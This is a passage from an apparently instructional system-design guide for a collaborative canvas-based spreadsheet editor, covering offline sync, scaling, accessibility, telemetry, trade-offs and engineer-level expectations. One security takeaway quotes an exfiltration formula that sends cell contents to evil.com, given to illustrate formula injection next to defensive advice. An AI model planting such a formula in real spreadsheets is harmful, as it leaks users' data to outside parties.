| WebSocket disconnect          | Heartbeat timeout (30s)        | No real-time updates     | Exponential backoff reconnect + operation queue         |
| Formula engine crash (Worker) | Worker `onerror` event         | Formulas stop evaluating | Restart Worker + re-evaluate dirty set                  |
| IndexedDB quota exceeded      | `QuotaExceededError`           | Can't cache offline      | LRU eviction of oldest sheets                           |
| Server version conflict       | OT transform failure           | Edit rejected            | Client rebases pending ops on new base                  |
| Large paste OOM               | Performance.memory API         | Tab crash risk           | Chunk paste into 1K-cell batches                        |
| Scroll jank (missed frames)   | `requestAnimationFrame` timing | Poor UX                  | Reduce overscan, skip text rendering during fast scroll |
| Circular formula reference    | Topological sort failure       | Infinite loop            | Mark cells as `#CIRCULAR!`, break eval                  |

### Offline-First Architecture

```typescript
class OfflineManager {
  private pendingOps: Operation[] = [];
  private isOnline = navigator.onLine;

  async applyOperation(op: Operation): Promise<void> {
    // Always apply locally first (optimistic)
    this.localStore.apply(op);
    this.historyStore.push(op);

    if (this.isOnline) {
      try {
        await this.transport.send(op);
      } catch {
        this.pendingOps.push(op);
      }
    } else {
      this.pendingOps.push(op);
      await this.persistQueue(); // IndexedDB
    }
  }

  async onReconnect(): Promise<void> {
    // Fetch server state since last confirmed version
    const serverOps = await this.fetchMissedOps(this.lastConfirmedVersion);

    // Transform pending ops against server ops (OT)
    const transformed = this.ot.transformBatch(this.pendingOps, serverOps);

    // Re-send transformed operations
    for (const op of transformed) {
      await this.transport.send(op);
    }

    this.pendingOps = [];
  }
}
```

### Horizontal Scaling

```
┌─────────────────────────────────────────────────────────────┐
│                    Load Balancer (L7)                         │
│         (sticky sessions by sheet ID for WebSocket)          │
└────────────┬──────────────────────┬─────────────────────────┘
             │                      │
   ┌─────────▼────────┐  ┌─────────▼────────┐
   │  WS Server Pod 1  │  │  WS Server Pod 2  │
   │  (sheets A-M)     │  │  (sheets N-Z)     │
   └─────────┬─────────┘  └─────────┬─────────┘
             │                      │
   ┌─────────▼──────────────────────▼─────────┐
   │         Redis Pub/Sub (cross-pod ops)     │
   └─────────┬────────────────────────────────┘
             │
   ┌─────────▼─────────┐
   │  Document Store    │
   │  (sharded by ID)   │
   └────────────────────┘
```

---

## Accessibility Deep Dive

<Callout>
  Spreadsheets present a unique accessibility challenge: screen readers must
  navigate a 2D grid where cells can contain computed values, formulas, or
  formatting. ARIA grid roles alone are insufficient — the application must
  maintain a **virtual accessibility tree** that maps canvas-rendered cells to
  semantic information announced by assistive technology.
</Callout>

### ARIA Grid Structure

```html
<!-- Hidden accessible DOM that mirrors canvas state -->
<div role="application" aria-label="Spreadsheet Editor">
  <div
    role="grid"
    aria-rowcount="1000000"
    aria-colcount="16384"
    aria-label="Sheet 1"
  >
    <!-- Only active region rendered in DOM for a11y -->
    <div role="row" aria-rowindex="5">
      <div
        role="gridcell"
        aria-colindex="2"
        aria-label="Cell B5, value: 42, formula: =SUM(B1:B4)"
        tabindex="-1"
      >
        42
      </div>
    </div>
  </div>
</div>
```

### Keyboard Navigation

| Key             | Action                   | Context         |
| --------------- | ------------------------ | --------------- |
| Arrow keys      | Move active cell         | Navigation mode |
| Tab / Shift+Tab | Move to next/prev cell   | Edit mode       |
| Enter           | Confirm edit, move down  | Edit mode       |
| Escape          | Cancel edit              | Edit mode       |
| Ctrl+Home       | Go to A1                 | Any             |
| Ctrl+End        | Go to last used cell     | Any             |
| Ctrl+Shift+End  | Select to last used cell | Any             |
| F2              | Enter edit mode          | Navigation mode |
| Ctrl+Space      | Select entire column     | Any             |
| Shift+Space     | Select entire row        | Any             |
| Ctrl+Z / Ctrl+Y | Undo / Redo              | Any             |
| Ctrl+C / Ctrl+V | Copy / Paste             | Any             |
| Ctrl+;          | Insert current date      | Edit mode       |

### Screen Reader Announcements

```typescript
class AccessibilityAnnouncer {
  private liveRegion: HTMLElement;

  announceNavigation(cell: CellRef, data: CellData): void {
    const parts = [
      `Cell ${this.cellLabel(cell)}`,
      data.displayValue ? `value: ${data.displayValue}` : "empty",
      data.formula ? `formula: ${data.formula}` : null,
      data.note ? `has note` : null,
    ].filter(Boolean);

    this.liveRegion.textContent = parts.join(", ");
  }

  announceSelection(range: CellRange): void {
    const rows = range.end.row - range.start.row + 1;
    const cols = range.end.col - range.start.col + 1;
    this.liveRegion.textContent =
      `Selected ${rows} rows by ${cols} columns, ` +
      `from ${this.cellLabel(range.start)} to ${this.cellLabel(range.end)}`;
  }

  announceFormulaResult(cell: string, result: CellValue): void {
    this.liveRegion.textContent = `${cell} calculated: ${result}`;
  }
}
```

### High Contrast & Zoom

```typescript
const a11yConfig = {
  // Respect prefers-reduced-motion
  animateScroll: !window.matchMedia("(prefers-reduced-motion: reduce)").matches,

  // High contrast mode: thicker borders, no subtle grays
  highContrast: window.matchMedia("(forced-colors: active)").matches,

  // Minimum cell text size: 12px regardless of zoom
  minFontSize: 12,

  // Focus indicator: 3px solid blue (visible on any background)
  focusRing: { width: 3, color: "#0066CC", offset: -1 },

  // Selection: high contrast blue with pattern fill (not just color)
  selectionFill: "rgba(0, 102, 204, 0.2)",
  selectionPattern: true, // diagonal hatch for colorblind users
};
```

---

## Monitoring & Observability

| Metric                       | Target     | Alert Threshold        | Dashboard          |
| ---------------------------- | ---------- | ---------------------- | ------------------ |
| Frame render time (p50)      | < 8ms      | > 16ms for 10s         | Canvas Performance |
| Frame render time (p99)      | < 16ms     | > 33ms (dropped frame) | Canvas Performance |
| Formula eval time (p95)      | < 20ms     | > 100ms                | Formula Engine     |
| WebSocket latency (p95)      | < 100ms    | > 500ms                | Collaboration      |
| WebSocket disconnect rate    | < 0.1%/min | > 1%/min               | Collaboration      |
| Memory usage (JS heap)       | < 300MB    | > 500MB                | Client Health      |
| IndexedDB storage            | < 100MB    | > 200MB                | Client Health      |
| Cell count per sheet         | < 1M       | > 5M (hard limit)      | Usage              |
| Concurrent editors per sheet | < 50       | > 100                  | Collaboration      |
| Operation queue depth        | < 10       | > 50 pending ops       | Sync Health        |
| First meaningful paint       | < 1.5s     | > 3s                   | Core Web Vitals    |
| Formula Worker restart rate  | < 1/hour   | > 5/hour               | Formula Engine     |

### Client-Side Telemetry

```typescript
class SpreadsheetMetrics {
  private performanceObserver: PerformanceObserver;

  trackFrameTime(): void {
    let lastFrameTime = performance.now();

    const measure = () => {
      const now = performance.now();
      const frameTime = now - lastFrameTime;
      lastFrameTime = now;

      if (frameTime > 16.67) {
        this.reportDroppedFrame(frameTime);
      }

      this.histogram("render.frame_time", frameTime);
      requestAnimationFrame(measure);
    };
    requestAnimationFrame(measure);
  }

  trackFormulaPerformance(cellCount: number, durationMs: number): void {
    this.histogram("formula.recalc_time", durationMs, { cellCount });
    if (durationMs > 100) {
      this.reportSlowRecalc(cellCount, durationMs);
    }
  }

  trackMemoryUsage(): void {
    if ("memory" in performance) {
      const { usedJSHeapSize, jsHeapSizeLimit } = (performance as any).memory;
      this.gauge("memory.heap_used", usedJSHeapSize);
      this.gauge("memory.heap_ratio", usedJSHeapSize / jsHeapSizeLimit);
    }
  }

  trackCollaborationHealth(pendingOps: number, lastAckAge: number): void {
    this.gauge("collab.pending_ops", pendingOps);
    this.gauge("collab.last_ack_age_ms", lastAckAge);

    if (pendingOps > 20) {
      this.alert("collab.queue_buildup", { pendingOps });
    }
  }
}
```

---

## Trade-offs

| Decision            | Option A                          | Option B                              | Chosen              | Rationale                                                                                                                         |
| ------------------- | --------------------------------- | ------------------------------------- | ------------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| Grid rendering      | Canvas (single surface)           | DOM (individual cells)                | **Canvas**          | DOM cannot handle 1M+ cells; canvas renders 4,500 cells in < 8ms vs DOM needing 50ms+ for 1,000 elements                          |
| Formula evaluation  | Main thread (synchronous)         | Web Worker (async)                    | **Web Worker**      | Prevents UI blocking during large recalculations (10K+ cells); tradeoff is message serialization overhead (~2ms)                  |
| Cell storage        | Dense 2D array                    | Sparse Map (key: "A1")                | **Sparse Map**      | 95%+ of cells in large sheets are empty; sparse storage uses 200MB vs 2GB+ for dense allocation                                   |
| Collaboration       | OT (Operational Transform)        | CRDT (Conflict-free types)            | **OT**              | Cell-level granularity makes OT simpler; CRDT overhead unjustified when cells don't have character-level conflicts                |
| Dependency tracking | Full graph rebuild on edit        | Incremental dirty propagation         | **Incremental**     | Full rebuild is O(n) on all formulas; incremental is O(k) where k = affected subgraph (typically < 1% of total)                   |
| Text measurement    | Measure on every render           | Pre-compute + cache                   | **Cache with LRU**  | `measureText()` costs 0.1ms per call; 1,000 cells = 100ms without cache. LRU keeps memory bounded.                                |
| Clipboard format    | Plain text only                   | Multi-format (text + HTML + internal) | **Multi-format**    | Plain text loses formatting; internal format preserves formulas; HTML enables rich paste from external sources                    |
| Undo granularity    | Character-level (every keystroke) | Cell-level (on commit)                | **Cell-level**      | Character undo in 1M cells would explode memory; cell-level with batch grouping (paste = 1 undo step) balances usability and cost |
| Column widths       | Fixed (uniform)                   | Variable (per-column array)           | **Variable**        | Users expect resize; store as Float32Array for O(1) lookup with minimal memory (16KB for 16K columns)                             |
| Frozen panes        | Re-render in main canvas          | Separate off-screen canvas            | **Separate canvas** | Frozen content doesn't change on scroll; separate canvas eliminates redundant draws (saves 30% render time)                       |

---

## What Great Looks Like

### Senior Engineer (L5)

- Implements canvas-based grid renderer with viewport virtualization
- Builds formula parser handling common functions (SUM, IF, VLOOKUP)
- Implements cell selection model with keyboard navigation
- Copy/paste with plain text and HTML table format
- Basic undo/redo with operation stack
- Addresses core performance: 60 FPS scrolling, binary search for row/col lookup
- Mentions accessibility requirements but may not fully implement ARIA grid

### Staff Engineer (L6)

- Designs the full formula engine pipeline (tokenizer → parser → AST → evaluator)
- Implements dependency DAG with topological sort and circular reference detection
- Incremental recalculation algorithm with dirty propagation
- Web Worker architecture for non-blocking formula evaluation
- Multi-layer canvas rendering with independent invalidation
- Collaboration protocol design (OT) with conflict resolution
- Cache coherence strategy for real-time updates
- Comprehensive accessibility with virtual a11y tree
- Performance budgets with concrete metrics and monitoring

### Principal Engineer (L7)

- Designs the entire system from cell storage format to collaboration protocol to formula security sandbox
- Considers memory pressure at 1M+ cells: column-oriented storage, shared format tables, TypedArrays for dimensions
- Evaluates OT vs CRDT tradeoffs with specific examples of conflict scenarios in spreadsheet context
- Designs offline-first architecture with operation queue, transform-on-reconnect, and version vector reconciliation
- Plans horizontal scaling: WebSocket session affinity, cross-pod operation relay via pub/sub
- Security threat model covering formula injection, CSV export attacks, and data exfiltration via computed cells
- Defines observability strategy with frame-time histograms, formula hot-path profiling, and collaboration health metrics
- Articulates 10+ trade-offs with quantified reasoning (not just "it depends")

---

## Key Takeaways

- **Canvas over DOM** is non-negotiable for spreadsheet grids — DOM cannot render 1M+ cells at 60 FPS. Use a layered canvas architecture where each layer (grid, content, selection, overlay) repaints independently to minimize work per frame.

- **Formula engines are compilers** — the pipeline (tokenizer → parser → AST → evaluator) must be cleanly separated. The dependency DAG with topological sort enables incremental recalculation, and circular reference detection prevents infinite loops.

- **Sparse storage beats dense arrays** — 95%+ of cells in real sheets are empty. Use `Map<string, CellData>` with shared format objects (flyweight pattern) to keep a 1M-row sheet under 200MB.

- **Viewport virtualization with binary search** — never iterate all rows to find visible cells. Maintain prefix-sum arrays for row/column offsets and use O(log n) binary search on scroll position changes.

- **Collaboration at cell granularity** — OT works well for spreadsheets because conflicts occur at cell level (not character level). Last-write-wins with transform handles 95% of cases; explicit conflict UI for the rest.

- **Security is a first-class concern** — formula injection can exfiltrate data (`=IMAGE("https://evil.com?data=" & A1)`). Whitelist allowed functions, sandbox evaluation with timeouts, and never use `eval()`.

- **Accessibility requires a parallel virtual DOM** — canvas is invisible to screen readers. Maintain a hidden ARIA grid that mirrors active cell state, announce navigation and formula results via live regions, and ensure full keyboard operability.

- **Measure everything** — frame render time histograms, formula evaluation p95, WebSocket ack latency, and memory heap usage. Alert on dropped frames (> 16ms render) and collaboration queue buildup (> 50 pending ops).
